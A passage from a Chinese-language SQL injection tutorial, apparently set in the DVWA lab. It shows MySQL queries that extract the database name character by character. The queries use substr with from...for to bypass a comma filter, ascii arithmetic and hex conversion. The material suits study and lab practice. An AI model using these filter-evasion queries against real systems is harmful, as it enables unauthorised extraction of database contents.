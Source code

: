 成功截取，但是逗号被过滤，该咋办。使用`from...for...`代替。

```
mysql> select '0'+ascii(substr(database() from 1 for 1));
+--------------------------------------------+
| '0'+ascii(substr(database() from 1 for 1)) |
+--------------------------------------------+
|                                        100 |
+--------------------------------------------+
1 row in set (0.00 sec)

mysql> select '0'+ascii(substr((database()) from 2 for 1));
+----------------------------------------------+
| '0'+ascii(substr((database()) from 2 for 1)) |
+----------------------------------------------+
|                                          118 |
+----------------------------------------------+
1 row in set (0.00 sec)
```

**还有可以使用十六进制转换后运算**

有疑问，为啥不用二进制或者八进制。用例子来说明：

```
mysql> select bin('dvwa');
+-------------+
| bin('dvwa') |
+-------------+
| 0           |
+-------------+
1 row in set (0.00 sec)

mysql> select oct('dvwa');
+-------------+
| oct('dvwa') |
+-------------+
| 0           |
+-------------+
1 row in set (0.00 sec)

mysql> select hex('dvwa');
+-------------+
| hex('dvwa') |
+-------------+
| 64767761    |
+-------------+
1 row in set (0.00 sec)
```

可以看到，只有十六进制成功转换。

但是又出来一个问题，如果十六进制转换后的字符串有字母的话，转化为数字就会相加就会丢失字符。

```
mysql> select hex('dvwa{}');
+---------------+
| hex('dvwa{}') |
+---------------+
| 647677617B7D  |
+---------------+
1 row in set (0.00 sec)

mysql> select hex('dvwa{}')+'0';
+-------------------+
| hex('dvwa{}')+'0' |
+-------------------+
|         647677617 |
```